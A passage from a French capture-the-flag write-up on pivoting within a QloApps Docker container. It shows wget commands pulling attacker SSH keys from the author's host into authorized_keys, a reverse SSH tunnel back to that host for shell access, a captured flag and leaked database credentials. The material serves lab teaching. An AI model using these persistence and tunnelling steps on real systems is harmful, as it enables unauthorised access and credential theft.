 Oui, on est encore sur un autre réseau ! On remarque aussi la présence d'un fichier .dockerenv à la racine du disque.  

Un client SSH et le monde vous appartient
-----------------------------------------

A ce stade un petit PTY serait le bienvenue mais comme vu au début aucun SSH n'est exposé. Il y a pourtant sur le container Docker actuel un serveur SSH qui ne demande que nous.  

On va effectuer un remote forwarding du service SSH local qui sera ensuite accessible sur le port 2222 de notre machine.  

Première étape, j'ai créé en local un jeu de clés sans passphrase :  

```bash
$ ssh-keygen -b 2048 -t rsa -f ctf_key -q -N ""
```

Sur le Docker je les rappatrie via Wget au bon emplacement :  

```bash
wget http://192.168.56.1:8000/ctf_key -O /home/qloapps/.ssh/id_rsa
wget http://192.168.56.1:8000/ctf_key.pub -O /home/qloapps/.ssh/id_rsa.pub
cp /home/qloapps/.ssh/id_rsa.pub /home/qloapps/.ssh/authorized_keys
```

J'ajoute aussi cette clé publique dans mon *authorized\_keys* local. L'absence de passphrase est primordial vu que à ce stade je ne dispose pas de PTY et ne pourrait donc pas saisir de mot de passe.  

Finalement je remote-forwarde le port (sur le Docker) :  

```bash
$ ssh -N -o "StrictHostKeyChecking no" -R 2222:localhost:22 devloop@192.168.56.1
```

Et depuis ma machine :  

```bash
$ ssh -i ctf_key -p 2222 qloapps@127.0.0.1

qloapps@prime:~$ ls
Flag1.txt  www
qloapps@prime:~$ cat Flag1.txt 
3dddaab46a4d2267811d9524c2af7b23dd8db460
```

Sur cette machine je trouve les identifiants SQL pour le *QloApps* (*/home/qloapps/www/hotelcommerce/config/settings.inc.php*) :  

```php
define('_DB_SERVER_', 'localhost');
define('_DB_NAME_', 'qloapps');
define('_DB_USER_', 'root');
define('_DB_PASSWD_', 'myrootpassword');
```

Il s'avère que c'est une impasse. On va plutpot énumérer ce qui pourrait être présent sur le réseau 192.168.0.1/24.  

Bien sûr on est dans un Docker donc côté outils il ne faut pas d'attendre à grand chose. Netcat n'est même pas présent mais oh surprise Python3 est installé avec le module *requests*.  
